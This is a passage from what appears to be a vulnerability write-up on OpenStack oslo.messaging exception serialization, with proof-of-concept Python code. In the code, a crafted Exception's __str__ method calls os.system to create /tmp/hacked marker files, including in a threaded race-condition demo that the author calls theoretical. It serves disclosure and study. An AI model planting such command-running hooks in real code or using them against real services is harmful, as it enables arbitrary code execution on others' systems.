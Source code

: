 ```python
    exc_info = sys.exc_info()
    serialized = exceptions.serialize_remote_exception(exc_info)

print("File created:", os.path.exists("/tmp/hacked"))

→ Malicious __str__() is executed within the serializer.
```

### **✅ PoC 5 – Race Condition with Threads (Theoretical Example)**

This experiment simulates a theoretical race condition scenario in which multiple threads concurrently deserialize and serialize exception objects. The test proves that when two threads (a producer and a consumer) access shared exceptions via a queue, the serializer thread may trigger `str(ex)` on a malicious object before it has been fully sanitized. As discussed below, this is not a realistic risk in actual OpenStack deployments.

> **Note:** In actual OpenStack oslo.messaging and Nova implementations, global variables or direct sharing of exception objects across threads or processes does not occur. Exception objects are always serialized and deserialized across process or network boundaries, meaning each thread or process works with its own instance. Therefore, the race condition demonstrated in this PoC does not represent a realistic risk in real-world OpenStack environments. This PoC should be considered a theoretical demonstration of Python concurrency issues, not a practical exploit vector for OpenStack.

This demonstrates the danger of using shared resources and exception objects across asynchronous or threaded boundaries without protective synchronization or trust boundaries. Even in environments with the GIL, race windows can expose critical bugs.

#### **Limitations of This PoC**

* This PoC assumes shared mutable global state (`hit_count`), which is not typically used in production code.

* Python's Global Interpreter Lock (GIL) limits true concurrency, so race conditions in CPython are often timing-dependent and may be less predictable.

* The `Boom` object is explicitly crafted and passed across a shared queue without serialization boundaries; in real deployments, such objects would typically be serialized/deserialized across process or network boundaries, limiting direct reference reuse.

* Nevertheless, this PoC illustrates the class of timing-sensitive bugs that arise from deserialization and stringification of attacker-influenced objects in multi-threaded environments.

```python

import threading
import os
import time
import random
from queue import Queue
import queue  # for queue.Full exception

# Shared resources
hit_count = 0
ex_queue = Queue(maxsize=5)

class Boom(Exception):
    def __str__(self):
        global hit_count
        local_count = hit_count
        print(f"Thread {threading.current_thread().name} reading hit_count={local_count}")
        time.sleep(random.uniform(0.001, 0.003))  # 1ms ~ 3ms delay
        hit_count = local_count + 1
        print(f"Thread {threading.current_thread().name} set hit_count={hit_count}")
        os.system(f"touch /tmp/hacked_race_{hit_count}_thread_{threading.current_thread().name}")
        return f"boom_{hit_count}"

```